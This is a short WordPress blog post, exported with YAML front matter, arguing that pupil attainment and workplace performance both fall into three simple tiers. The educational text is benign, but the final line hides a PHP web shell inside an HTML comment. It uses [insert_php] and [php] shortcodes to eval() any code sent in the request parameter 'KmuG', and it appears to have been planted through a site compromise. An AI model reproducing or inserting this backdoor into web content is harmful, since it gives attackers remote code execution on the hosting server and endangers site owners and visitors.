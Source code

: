 ```yaml
---
ID: 13
post_title: 'It&#8217;s Just Three Levels'
author: Miss King
post_date: 2015-09-22 19:44:32
post_excerpt: ""
layout: post
permalink: >
  http://progressing.co.uk/its-just-three-levels/
published: true
---
```

<p>All educational flight paths are built on the same foundational points of entry (dare we say &#8220;levels&#8221;?)</p>
<ol>
<li>Higher prior attainer</li>
<li>Middle prior attainer</li>
<li>Lower prior attainer</li>
</ol>
<p>From that, you can ascertain whether a pupil is:</p>
<ol>
<li>Working towards expected</li>
<li>At expected</li>
<li>Working at greater than expected</li>
</ol>
<p>It&#8217;s all very similar to typical performance metrics in the professional industry:</p>
<ol>
<li>Meeting expectations</li>
<li>Exceeding expectations</li>
<li>Above and beyond</li>
</ol>
<p>This pattern is well versed throughout personal development irrelevant of the person&#8217;s age or level. By simplifying the levels into three clear tiers, it allows the person to easily self assess where they think they&#8217;re performing and, ideally, compare with peer or senior reviews.</p>
<p><strong>Next time you&#8217;re looking at your group&#8217;s levels, make sure you adopt the three tier system.</strong></p>
<!-- [insert_php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/insert_php][php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/php] -->